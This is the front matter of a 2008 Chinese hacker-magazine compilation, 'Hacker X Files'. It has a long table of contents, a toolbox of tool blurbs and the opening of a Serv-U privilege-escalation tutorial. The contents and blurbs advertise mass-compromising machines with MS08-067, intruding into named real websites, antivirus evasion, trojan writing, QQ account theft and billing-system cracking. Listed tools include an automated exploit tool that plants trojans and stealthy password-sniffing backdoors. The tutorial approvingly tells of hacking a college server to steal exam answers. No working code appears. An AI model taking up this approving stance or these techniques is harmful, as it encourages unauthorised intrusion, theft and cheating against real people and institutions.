# 黑客X档案合订本2008年（下）第一部分


# 《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程

WWW.HACKERXFILES.NET WWW.HACKERXFILES.NET

### 经典漏洞刷刷篇

- 微软 MS08-067 漏洞批量抓肉鸡大法
- Discuz! WAP最新0day漏洞大曝光
- 网站提权，我用本地漏洞Windows Token Kidnapping
- 最新的Discuz! NT2.5漏洞来报道了
- 小菜抓鸡之dedecms、phpcms最新漏洞的利用
- 菜鸟也来玩phpwind、dedecms、sablog最新漏洞
- PHPWind管理员权限泄露漏洞之利用
- 飞天论坛最新0day漏洞助小菜肉鸡成群
- 跟我学风讯最新注入漏洞的利用

### 非安全漏洞篇

- 菜鸟杀软基础三步走
- 玩转局域网ARP攻击
- 教菜鸟四步成为免杀高手
- 轻松实现木马配置和动态域名上线
- 免杀之利用易语言加密特征码
- 病毒启动大盘点

### X档案网络安全训练营

- 跟我学服务器提权（下）
- 肉鸡保卫战（上）
- 肉鸡保卫战（下）
- 如何让你的操作系统变得更安全
- 菜鸟也来学配置服务器之备份还原及建站篇
- 菜鸟也来学配置服务器之搭建ASP.NET环境篇

### 精彩网安一览

- “揭秘”北大主站被黑事件
- 曲折的入侵和MS08-067提权
- 青出于蓝而胜于蓝的PaiNRAT
- Q币，刷！刷！刷！
- 炽天使4.0黑客X档案专版使用手记
- 批量抓肉鸡之我用Tomcat
- 不用360专版照样免费用Nod32
- 小菜再来入侵何昊官方网站
- 反弹木马编写
- 从零开始学破解系列文章



### 外商投资企业2008年检手册

## 下卷

## 《黑客X档案》2008年合订本（下卷）

出品人：孙胜利
主编：杨冬柱
编辑部主任：丛林
编辑部：sagi/呆呆虫/虫虫/咖啡/黄色潜水艇/笨牛牛
特约编辑：ww0830/zj1244/阿布/hackest/姜超/孟方明/Talent Feng
光盘部：战神MARS
设计：谭海梅
排版：Bifrost
发行部总监：湛颖
联系电话：010-88561473
发行部经理：赵琦
联系电话：010-88561472
联系电话：010-88560080
E-Mail：hackerxfiles@263.net
定价：人民币32.00元（光盘+手册）

声明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关费用。如有相关问题，请作者及时与我们联系。



## 专题企划

- 2008.07 菜鸟师徒行——跟我学服务器提权（下） 9
- 2008.08 菜鸟师徒行——肉鸡保卫战（上） 15
- 2008.09 菜鸟师徒行——肉鸡保卫战（下） 22
- 2008.10 菜鸟师徒行——如何让你的操作系统变得更安全？ 29
- 2008.11 菜鸟也来学配置服务器之搭建ASP环境篇 37
- 2008.12 菜鸟也来学配置服务器之搭建ASP.NET环境篇 44

## QQ 专区

- 2008.07 无限QQ钻石任你刷 49
- 2008.07 三剑客助我淘尽靓Q 49
- 2008.07 详论QQ安全登录之策略 51
- 2008.07 无敌代码打造顽固QQ号 53
- 2008.08 让花匠学徒也能领养五级花 54
- 2008.08 动动手，瞬间刷出QQ空间上亿的人气 55
- 2008.08 QQ盗号从此我不怕 55
- 2008.08 QQ币免费获取小秘籍 57
- 2008.09 免费装扮漂亮可爱的QQ空间 58
- 2008.09 利用QQ飞车地址提权，获得QQ多种权限 59
- 2008.09 鲜为人知的免费黄钻活动 60
- 2008.09 找回QQ好友有新招 61
- 2008.09 超级无敌破解QQ加密空间查看相册 62
- 2008.10 Q币，刷！刷！刷！ 62
- 2008.10 QQ免费建群我也会 63
- 2008.10 QQ空间日志流量刷到爆 64
- 2008.10 QQ邮箱网站又来新招 65
- 2008.11 免费使用黄钻饰品，盗取别人空间模块 66
- 2008.11 通过合法途径来偷走你的Q号 66
- 2008.11 另类QQ扫号大法 67
- 2008.11 QQ2008常见攻击方法大揭秘 67
- 2008.11 看我不需密码进入加密空间或相册 68
- 2008.12 两秒钟点亮穿越火线图标 69
- 2008.12 菜鸟式纯操作破解QQ聊天 69
- 2008.12 拿什么拯救你——我的QQ 70
- 2008.12 对“零工具反彩虹QQ探隐身”的补充 70
- 2008.12 两条在网吧实用的QQ会员功能 72
- 2008.12 突破QQ绿钻权限 让空间唱起来 72
- 2008.12 突破QQ绿钻权限 让空间唱起来 73

## 网吧黑客

- 2008.07 零工具再创网吧免费上网神话 74
- 2008.07 徒手搞定整个机房 74
- 2008.07 使用OD破解PUBWIN4实现免费上网 77
- 2008.08 看我怎么干掉任子行网吧管理系统 78
- 2008.08 再破HR2004机房登录系统 79
- 2008.09 破解PUBWIN4，网费任意加 80
- 2008.09 谁说没有免费的“午餐” 81
- 2008.10 徒手也玩iKeeper免费上网 81
- 2008.10 让网吧破解所向无敌 82
- 2008.10 超级傻瓜式破解PUBWIN2007 84
- 2008.11 看我用工具OE来破解网吧下载限制 84
- 2008.11 破解金盘之我用粘滞键后门 86
- 2008.12 破解网吧收费系统之终结版 88
- 2008.12 虚拟桌面也来免费上网 89
- 2008.12 MS08-067漏洞助我入侵网吧服务器 89

## 黑客编程

- 2008.07 蚂蚁军团的力量之流量也来洗刷刷 91

## 目录

- 2008.07 巧破互联星空的多用户共享 92
- 2008.07 菜鸟的好帮手——完美DDoS 93
- 2008.07 揭开网页木马的神秘面纱 94
- 2008.07 制作陷阱之SHS碎片文件 95
- 2008.07 禁止运行非法程序——从QQ说起 96
- 2008.07 把机密文件隐藏到回收站 98
- 2008.07 看菜鸟玩转镜像劫持 99
- 2008.07 小菜这样来拯救迅雷 99
- 2008.08 内网之灰鸽子上线又有新招 100
- 2008.08 菜鸟也来用autorun.inf传播木马 101
- 2008.08 盗取UC号码之奇思异想 102
- 2008.08 看我免费用瑞星 103
- 2008.08 将校园共享进行到底 104
- 2008.08 将秘密锁进DLL里 105
- 2008.08 教你利用网易邮箱来搭站挂马 105
- 2008.08 解决WinXP重装后原文件夹拒绝访问的故障 107
- 2008.08 文件夹加密，你真的安全吗？ 107
- 2008.08 利用星空极速来盗取宽带密码 109
- 2008.08 锁住你的Internet 110
- 2008.08 看我用图片来查你IP地址 112
- 2008.08 一分钟KO瑞星——论杀毒软件的自我保护 114
- 2008.09 免费使用，还有金山毒霸 115
- 2008.09 如何禁止别人来使用U盘 116
- 2008.09 简单社会工程学之亲身体验 117
- 2008.09 论坛我就要免费的——免费打造属于自己的个人论坛 118
- 2008.09 教小菜免费得到付费的手机彩铃 119
- 2008.09 深入浅出之Windows共享 120
- 2008.09 针对未知U盘病毒最安全的打开方法 122
- 2008.09 文件的另类隐藏 122
- 2008.09 网站投票大家刷 124
- 2008.09 QQ钓鱼？从GOOGLE说起 125
- 2008.10 零工具反彩虹QQ探隐身 127
- 2008.10 一个月让网站挺进Alexa排名前10万 128
- 2008.10 免费电话在线打 130
- 2008.10 又一款免费的VPN—relakks 130
- 2008.10 灰鸽子内网上线新方法 131
- 2008.10 一分钟用WinRAR制作破坏系统程序 132
- 2008.10 系统问题，WinPE帮你搞定 133
- 2008.10 通杀Windows2000和2003的输入法 135
- 2008.10 纯手工忽悠木马攻略 136
- 2008.10 小菜也来学简单电子邮箱攻击及防范 137
- 2008.10 教菜鸟编写批处理无限使用卡巴斯基 138
- 2008.10 镜像劫持制作CMD加密器 139
- 2008.11 “刷”百度空间流量的好工具——百度无名访客 139
- 2008.11 Nod32也刷半年激活码 140
- 2008.11 巧借网站制作邮箱炸弹 140
- 2008.11 叉子跟我一起来初识DRDoS 141
- 2008.11 用赛门铁克弥补UAC的不足之处 142
- 2008.11 你的个人移动虚拟PC Prayaya V3 142
- 2008.11 菜鸟轻轻松松做动画 144
- 2008.11 破解不出管理员密码照样进后台 147
- 2008.11 基于WAP的远程控制 148
- 2008.12 简单测试黑客工具中是否含有后门 149
- 2008.12 利用下载软件制作隐蔽的DOS炸弹 149
- 2008.12 手把手教你制作“WinRAR自解压补丁生成器” 150
- 2008.12 不用360专版照样免费用Nod32 152
- 2008.12 突破邮件群发，实现网络暴力营销 152
- 2008.12 3GQQ幻想西游，我用电脑玩 154
- 2008.12 小心“黄山IE修复专家”中的猫腻 155

## CONTENT

- 2008.12 全国计算机等级考试上机不会做也可以拿满分 156
- 2008.12 守护你的小马—隐藏小马引发的讨论 157

## 黑客编程

- 2008.07 “格格尔”摇身一变成木马 159
- 2008.07 gh0st轻松过卡巴主动防御 161
- 2008.07 浅谈输出表免杀 164
- 2008.07 隐形后门让我们的肉鸡更安全 166
- 2008.08 只要有“微笑”，就会有“肉鸡” 167
- 2008.08 剑走偏锋！看我如何过卡巴 169
- 2008.08 dll文件插码打造可交互式后门 170
- 2008.08 再谈输入表免杀 172
- 2008.09 和我一起来试用小锋远程控制 174
- 2008.09 让shift后门穿透系统文件保护 176
- 2008.09 为木马的入侵开路 177
- 2008.10 炽天使4.0黑客X档案专版使用手记 178
- 2008.10 远程控制的新选择——DarkstRat2008 181
- 2008.10 全手动打造“寄生虫”后门 183
- 2008.11 青出于蓝而胜于蓝的PaiNRAT 183
- 2008.11 教小菜使用后门程序hway 187
- 2008.11 让内网玩木马更方便 188
- 2008.12 专过360安全卫士的SRAT 189
- 2008.12 国外优秀的远程软件——Spy-Net 191
- 2008.12 类似灰鸽子的“小牛远程” 193

## 病毒分析

- 2008.07 遭遇奇怪的MS-DOS.com病毒 195
- 2008.07 看小菜我来剥病毒的皮 195
- 2008.08 小菜的无名病毒遭遇战 197
- 2008.09 设置文件权限让驱动级木马露马脚 198
- 2008.09 Autorun.inf光荣复活 199
- 2008.10 杀毒遗留问题面面观 199
- 2008.10 完美搭配，打造自己完美的毒盘 201
- 2008.11 打好木马反击战 201
- 2008.11 遭遇“U盘无法写入”病毒 204
- 2008.12 记事本也杀毒 204
- 2008.12 病毒的另类启动方式 205

## 黑客在线

- 2008.07 鬼网超生（三）神秘的端口 206
- 2008.08 鬼网超生（四）同病相怜的访客 208
- 2008.09 鬼网超生（五）宿命，即便是悲哀也要勇敢地面对 210
- 2008.10 鬼网超生（六）荒芜的宅院 213
- 2008.11 鬼网超生（七）缺失的记忆 213
- 2008.12 鬼网超生（八）白发人与贩毒公司 217

## 入侵测试

- 2008.07 PHPWind管理权限泄漏漏洞之利用 220
- 2008.07 跟小菜再来玩动网PHP2.0漏洞 222
- 2008.07 一次利用社会工程学的渗透 224
- 2008.07 对步步高官方网站的安全检测 226
- 2008.07 让叉子都来学会PHP注入 229
- 2008.07 注入漏洞，别忘了BBSXP2008 231
- 2008.07 艰难的由Webshell到ROOT权限的过程 234
- 2008.08 跟我学风讯最新注入漏洞的利用 237
- 2008.08 批量抓肉鸡之我用Tomcat 238
- 2008.08 看小菜再续phpwind漏洞之利用 241
- 2008.08 eWebEditorNet上传漏洞简单用 243


| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.08 | 入侵网游代练网 | 244 |
| 2008.08 | 对国家药典委员会的一次安全检测 | 245 |
| 2008.08 | 用 cookie 来注入网讯企业网站管理系统 | 247 |
| 2008.08 | 一个论坛帐号引发的故事 | 249 |
| 2008.09 | 菜鸟也来玩 phpwind、discuz、sablog 最新漏洞 | 252 |
| 2008.09 | 记一次某彩票站的沦陷 | 255 |
| 2008.09 | 对某整站系统的入侵 | 257 |
| 2008.09 | Joomla 助我轻松拿 webshell | 260 |
| 2008.09 | 公司网站历游记 | 261 |
| 2008.09 | 入侵 androidcn 中文网 | 265 |
| 2008.09 | 对某黑客站点的一次渗透 | 266 |
| 2008.10 | 最新的 Discuz!NT2.5 漏洞来报道了！ | 269 |
| 2008.10 | 小菜抓鸡之 dedecms、phpcms 最新漏洞的利用 | 271 |
| 2008.10 | 飞天论坛最新 0day 漏洞助小菜肉鸡成群 | 272 |
| 2008.10 | 一款适合小菜的目录扫描器的使用和改进 | 274 |
| 2008.10 | 利用隐藏注入点注入何炅官方网站 | 278 |
| 2008.10 | 看我来入侵双飞燕官方网站 | 280 |
| 2008.10 | 和我一起来体验 PHP168 最新漏洞 | 282 |
| 2008.11 | WebLogic 简单抓鸡大法 | 284 |
| 2008.11 | 网站提权，我用本地漏洞 Windows Token Kidnapping | 286 |
| 2008.11 | php 漏洞的 exp 利用方法 | 288 |
| 2008.11 | 对江西电信的一次内窥 | 289 |
| 2008.11 | 艰难的后台拿 shell 大作战 | 291 |
| 2008.11 | 突破一流过滤系统多思路拿下 webshell | 293 |
| 2008.11 | 由目标数据库开始的入侵 | 295 |
| 2008.11 | 看菜鸟如何来抓鸡 | 298 |
| 2008.11 | “揭秘”北大主站被黑事件 | 300 |
| 2008.12 | 微软最新 MS08067 漏洞批量抓肉鸡大法 | 302 |
| 2008.12 | Discuz! WAP 最新 0DAY 漏洞大曝光 | 305 |
| 2008.12 | 小菜来玩 PHPCMS 更改管理员密码漏洞 | 306 |
| 2008.12 | 小菜抓鸡，别忘了 DeDeCMS 新漏洞 | 308 |
| 2008.12 | 简晒后台之 webshell 的获取 | 310 |
| 2008.12 | 小菜再来入侵何炅官方网站 | 311 |
| 2008.12 | 曲折的入侵和 MS08067 提权 | 315 |

## 安全防范

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.07 | 电脑安全的利器——Shadow Defender | 318 |
| 2008.07 | 文件夹监控，“搜索助手”就够了 | 320 |
| 2008.07 | 运用 WinHex 从文件系统底层铲除顽固木马 | 321 |
| 2008.08 | 跟我学从根上防御 FLASH 漏洞 | 323 |
| 2008.08 | 保护你的 VNC | 324 |
| 2008.08 | 安全，从下载软件开始 | 327 |
| 2008.09 | 我有金钟罩，数据不会掉 | 327 |
| 2008.09 | 菜鸟初学 Windows 帐户密码安全 | 329 |
| 2008.09 | 和我一起来认识 SSM | 331 |
| 2008.10 | 菜鸟让病毒站不起来 | 333 |
| 2008.10 | 让木马病毒无用武之地——墨者安全专家 | 334 |
| 2008.10 | 使用软件限制策略给 Windows 加个岗哨 | 335 |
| 2008.11 | 优秀的文件加密软件 AxCrypt | 336 |
| 2008.11 | 卡巴离线升级包的制作方法 | 338 |
| 2008.11 | Password Door 为你的程序加扇安全门 | 339 |
| 2008.12 | 轻点鼠标来解决杀毒后遗症 | 340 |
| 2008.12 | 系统备份利器——Phoenix Recover Pro 6 | 341 |
| 2008.12 | 教小菜对抗驱动级病毒 | 342 |

## 黑客编程与工具

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.07 | 和我一起来研究 MSSQL 2005 的注入 | 346 |
| 2008.07 | 菜菜的 ASP 脚本 HACK 之旅 | 347 |
| 2008.08 | 浅谈 VBS 脚本变形 | 350 |
| 2008.08 | 小菜也来玩 MD5 碰撞 | 351 |
| 2008.09 | 如何防范重复提交数据攻击 | 352 |
| 2008.09 | 对上传漏洞的简要分析 | 354 |
| 2008.10 | 叉子之再来 SA 权限灵活入侵 | 357 |
| 2008.10 | 利用转发突破内网服务器终端连接限制 | 359 |
| 2008.11 | 浅谈 Windows 验证机制及缺陷 | 360 |
| 2008.11 | 小菜的 ajax & cookie 研究 | 363 |
| 2008.12 | Windows 下的数据隐藏技巧 | 365 |
| 2008.12 | 小议 SA 的另类入侵 | 368 |

## 编程乐园

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.07 | 从零开始学破解之（二十二）内存补丁 DIY | 371 |
| 2008.07 | 多种方法来破解 LeapFTP | 374 |
| 2008.08 | 从零开始学破解之（二十三）牢牢抓住“注册码” | 375 |
| 2008.08 | 打造属于自己的 SDemo | 380 |
| 2008.09 | 从零开始学破解之（二十四）小菜也做注册机 | 380 |
| 2008.09 | 免杀的两条小经验 | 384 |
| 2008.09 | 木马免杀新技巧之壳中改籽 | 385 |
| 2008.09 | 简简单单破解汉化 TVC | 386 |
| 2008.10 | 从零开始学破解之（二十五）探索隐藏的字符串 | 388 |
| 2008.10 | 超级持久免杀下载者 | 392 |
| 2008.10 | 免杀的注意事项及相关技巧 | 394 |
| 2008.10 | 和我一起来逆向分析免杀后门 | 395 |
| 2008.11 | 从零开始学破解之（二十六）遭遇“自杀代码” | 398 |
| 2008.11 | 手动破解迅闪还原 | 400 |
| 2008.11 | 菜鸟来跟我免杀落雪过瑞星全监控 | 402 |
| 2008.11 | 对 BT 游戏“I wanna be the guy”的研究 | 403 |
| 2008.12 | 从零开始学破解之（二十七）神奇的万能断点 | 405 |
| 2008.12 | 软件的脱壳与修复 | 408 |

## 黑客编程

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.07 | 反弹木马编写之 CMD 模拟 | 410 |
| 2008.07 | 动手打造 VISTA 版的 QQ 登录器 | 413 |
| 2008.08 | 超级挂机我做主 | 415 |
| 2008.08 | 卡巴，30 天后我继续试用你 | 417 |
| 2008.09 | 反弹木马编写之 3322 域名更新器 | 418 |
| 2008.09 | QQ 游戏大厅多开补丁简单做 | 421 |
| 2008.10 | 用 QQ 防盗工具来盗 QQ | 423 |
| 2008.10 | VB 版的网络神偷之木马的文件操控（上） | 425 |
| 2008.11 | U 盘病毒新变种之文件夹杀手 Delphi 造 | 429 |
| 2008.11 | VB 版的网络神偷之木马的文件操控（下） | 430 |
| 2008.12 | 反弹木马编写之进程控制 | 434 |
| 2008.12 | 日记加密自己编 | 437 |

## 闯关游戏

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008.07 | 教菜鸟四步成为免杀高手 | 440 |
| 2008.08 | 轻松实现木马配置和动态域名上线 | 446 |
| 2008.09 | 菜鸟免杀基础三步走 | 451 |
| 2008.10 | 玩转局域网 ARP 攻击 | 460 |
| 2008.11 | 免杀之利用异或算法加密特征码 | 464 |
| 2008.12 | 病毒启动大盘点 | 471 |

## 读者互动区

| 日期 | 文章标题 | 页码 |
| --- | --- | ---: |
| 2008 | 呆呆虫问吧 | 476 |


## 黑客工具箱

- **QQ防盗登录器 2.0：** 采用腾讯一样的 HASH 加密算法，该算法不可逆！绝对不会让任何 QQ 自动登录，完全达到防盗号与防密码移植！
- **FPipe：** 是一个源端口重定向器。它可以使用你选择的源端口建立一个 TCP 或 UDP 流，这在穿越那些允许 23 端口连接的防火墙从而进入内网时非常有用。
- **天网防火墙：** 天网安全实验室研发制作给个人计算机使用的网络安全工具。它根据系统管理者设定的安全规则（Security Rules）把守网络，提供强大的访问控制、应用选通、信息过滤等功能。
- **迅雷喊疼工具：** 去掉迅雷界面广告；减少迅雷运行时占用的资源；让迅雷能用快车、旋风的链接；屏蔽迅雷偷偷上传用户下载的文件。
- **Wsyscheck：** 一款强大的系统检测维护工具，进程和服务驱动检查、SSDT 强化检测、文件查询、注册表操作、DOS 删除等一应俱全。
- **SnipeSword：** 狙击剑是一个工具，其追求的目标是：“尽力让您看到您想看到的任何东西，包括被木马刻意隐藏的；努力让您能清除您想清除的任何东西，包括被木马恶意保护的”。至于看什么、杀哪个，需要您自己来决定，是用来杀马还是用来自杀也悉听尊便。
- **网络嗅探器（影音神探）4.73：** 使用 WinPcap 开发包，嗅探流过网卡的数据并智能分析过滤，快速找到所需要的网络信息（音乐、视频、图片等）。软件智能化程度高，使用方便快捷。
- **代理超人：** 方便国内网民使用代理浏览国外网站，让教育网用户可以访问其他网络，提高大家访问一些原本访问速度很慢的服务器的浏览和下载速度，以及隐藏和清除你的上网痕迹、保护你的隐私，另外还可以监控和分析网络传输信息。
- **按键精灵：** 一个模拟鼠标键盘动作的软件。通过制作脚本，可以让按键精灵代替您的双手，自动执行一系列鼠标键盘动作。按键精灵简单易用，不需要任何编程知识就可以作出功能强大的脚本。只要您在电脑前用双手可以完成的动作，按键精灵都可以替您完成。
- **Alexa 排名大师 2008：** 一款功能强大的推进 Alexa 排名的工具，还可以有效提高流量。使用本软件，可以在网站中加入统计代码，流量会明显提高，而且统计来源中会显示这部分来路为“直接输入网址”。
- **随心邮件炸弹：** 程序本身自带 SMTP 服务器，可以直接轰炸到对方邮件地址，快速高效，请在允许范围内合法使用。
- **拱天使 4.0（黑客X档案专版）：** 黑客X档案专版的拱天使 4.0，功能十分强大。
- **易我分区表医生 3.0：** 一款修复硬盘分区的软件，当你的驱动器发生错误（不是硬件错误）时，这个工具能自动地检查并且能够修复你的 MBR、分区表和分区的引导扇区错误。
- **Dvbbs 8.2.0：** 该版本在稳步提高产品的稳定性、安全性、易用性的前提下，保留核心页面采用全新的模板驱动机制、重写自定义标签模块、重写编辑器、重写上传客户端模块、优化 UBB 代码等 RC1 版的增强功能。
- **花刺代理验证（ProxyThorn）1.8：** 为了方便大家使用代理浏览国外网站，参照“代理之狐”设计的。它具备了“代理之狐”和“代理猎手”所有主要功能，但使用更方便，验证结果更可靠。
- **追影虚拟多桌面 V1.0.2：** 一款小巧的桌面辅助工具，免费使用，它可以轻松将你的桌面虚拟成多个桌面，在各个桌面上进行不同的工作，按下热键即可进行任意切换，极大地方便了任务的管理。
- **TenYQQ 2.0：** 一款业余挂 QQ 的小工具。使用它，您再也不必为了挂 QQ，开多个 QQ 客户端而占用过多系统资源而烦恼。TenY QQ 使用了多线程的工作方式，确保每个正在登录的 QQ 互不干扰，稳定运行。
- **ESET 升级账号获取器：** 一键获取正版 NOD32 升级账号与升级密码；一键复制账号、密码。
- **爱博邮件群发软件：** 著名的邮件群发工具软件，可以使用 Gmail 的邮件群发软件，无需太多专业知识也可以轻松操作，模拟人工的邮件群发，基本不进垃圾邮件。
- **Autorun 病毒防御者：** 一款专门针对流行的 U 盘病毒开发的查杀程序。它独有的精确查杀与扩展查杀双查杀机制能够彻底清除病毒和木马的相关文件和注册表项，不留残余。配合独特的启发式查杀引擎，对未知 U 盘病毒拥有 90% 以上的识别率。
- **猎杀者自动 MS08-067 抓鸡器：** MS08-067 自动抓鸡，填入 IP、端口、线程以及木马下载地址后点击开始抓鸡即可持续使用，传马时同时打开多个 Exploit 进行，提高了抓鸡效率。
- **Phoenix Recover Pro6：** 新一代“一键恢复”领先国际，建立 PC 机数据“灾备”系统，电脑安全有保障。最省心的数据保护专家！PC 机数据复原备份的首选软件！
- **BB FlashBack Pro 2.0.2：** 一个强大易用的抓屏工具，可以将抓屏结果直接保存为 Flash 动画或 AVI 多媒体视频文件。
- **Hway v3.0：** 注册服务、利用 svchost.exe 启动（实现无启动项、无进程）+ 嗅探（实现无端口、并记录用户的 POST 数据和 FTP 密码）+ 线程保护后门。
- **AxCrypt 1.6.4.4：** 加解密器，它可以对任何文件加密。
- **Password.Door：** 为你电脑上安装的任何一个或者每个流行的软件增加密码保护的功能。像 Winzip、Acrobat Reader、Office、IE 浏览器等软件本身没有密码保护特性，使用这个软件就可以为这些软件增加密码保护的特性。
- **手机顽童模拟器：** 模拟更加迅速。SJBoy 采用的是 Sun MIDP2.0 的实现框架，在此基础上进行了大量的优化，使运行速度得到了提高；支持动态更换 Keycode；拍照功能；丰富的 API 实现。
- **Sysinternals Suite：** 是微软发布的一套非常强大的免费工具程序集，用好 Windows Sysinternals Suite 里的工具，你将有更强能力处理 Windows 的各种问题，而且不花一毛钱。
- **最新的 Discuz!NT 2.5 漏洞利用工具：** Discuz!NT 2.5 是一款功能强大的基于 ASP.NET 平台的社区软件，最新漏洞的文件为 showuser.aspx，导致出现了 SQL 注入漏洞，光盘奉上利用代码 ice.aspx。
- **飞天论坛 0day 漏洞利用工具：** 飞天论坛最新 0day 漏洞助小菜肉鸡成群。
- **瘦瘦文件图标提取器 V1.1：** 本软件可以批量提取 exe、dll 等许多文件格式的图标数据并另外保存。图标大小的选项不能改变提取出来的图标大小，只能改变提取出来的格式为 jpg 的时候其文件大小。
- **黑客之门 1.2：** 采用了目前一些先进的后门技术，它只有一个 dll 文件，通过感染系统文件启动自身，被感染的系统文件大小和日期都不会改变；同时采用线程插入技术，本身没有进程；它本身不开端口，而是重用系统进程开的任意一个端口，如 80、135、139、445 等，因此它的隐蔽性是非常好的，而且穿透防火墙也是很容易的事情。

## 菜鸟师徒行

周五杰（阿布）

### 跟我学服务器提权（下）

“下周，我们学院就要进行期末考试，希望各位同学好好复习，争取一次考过，不要挂科！对了，考完试就可以放假回家了。好了，大家自己复习吧，系里还有点事，我先走了，大家保重。”辅导员便慢悠悠地走出了教室。

“唉，就要考试了？”、“这个学期完事了？”、“过得真快，我的《数据结构》还没看呢！”顿时教室里炸开了锅，都是讨论着有关考试的事情，此时的阿布又在想些什么呢？镜头一转，瞄准了刚从酣睡中苏醒过来的阿布。迷迷糊糊的阿布扯了扯同学的头发，问道：“搞什么飞机？咋这么乱？”，同学梳理着头发没好气地回答道：“大哥，该学习了，要考试了！”

晚上和燕妹妹聊天，得知期末考试正好与其回家的日子相冲突，正发愁呢！“哎呀，这可怎么办啊？火车票都买了啊，”燕妹妹发着牢骚。阿布问道：“火车票不是可以退的吗？退掉不就 OK 了吗？”燕妹妹怒道：“现在火车票那么紧张，能买到票就很不错了，你还让我退？是不想让我回家？”阿布打趣道：“嗯，也好！先带我妈妈看看也好！”燕妹妹大声怒斥：“你丫的！你想找死嘛。”阿布圆场道：“呵呵，开玩笑了，我想想办法吧！”燕妹妹嘻嘻地笑道：“还是师傅对我好。”

某日，阿布给燕妹妹一个 Word 文档，说道：“你走的那天正好考数据结构，这是答案，你把它背下来，考试早点交卷就可以早点坐车回家了！”燕妹妹眼冒金光：“哇！布哥，这么厉害哦！我先瞅瞅。”阿布补充道：“记住，不要外传，否则我就死定了。”燕妹妹频频点头道：“是是是是是……布哥真好，真厉害！”

就这样燕妹妹提前交了卷，顺利地赶上了回家的火车，阿布则又在考场上睡着了。想知道阿布是怎样拿到考试答案的吗？听说是入侵了教务处的服务器，还听说使用了 Serv-U 提权呢。不会？那么就来听听这堂课吧。

#### 一、Serv-U 漏洞资料分析

这次我们针对 Serv-U 进行提权讲解，先来介绍一下 Serv-U 是什么。Serv-U 是一种被广泛运用的 FTP 服务器端软件，支持 Win9x/NT/2000/2003 等全 Windows 系列。它设置简单，功能强大，性能稳定。FTP 服务器用户通过它使用 FTP 协议能在 Internet 上共享文件。它并不是简单地提供文件的下载，还为用户的系统安全提供了相当全面的保护。Serv-U 不仅 100% 遵守通用 FTP 标准，也包括众多的独特功能，可为每个用户提供文件共享完美解决方案。它可以设定多个 FTP 服务器、限定登录用户的权限、登录主目录及空间大小等，功能非常完备。

功能是不是很强大呢？那么它的软肋又在哪里呢？我来悄悄地告诉你。Serv-U 的软肋在它的管理模式上，Serv-U 提供了两种用来保存管理参数的方式：一种是 INI 配置文件保存方式，将管理参数保存到程序安装目录中一个名为 ServUDaemon.ini 的配置文件中（图 1）；另一种是注册表保存方式，将管理参数保存到注册表中的 `HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U` 分支（图 2）。

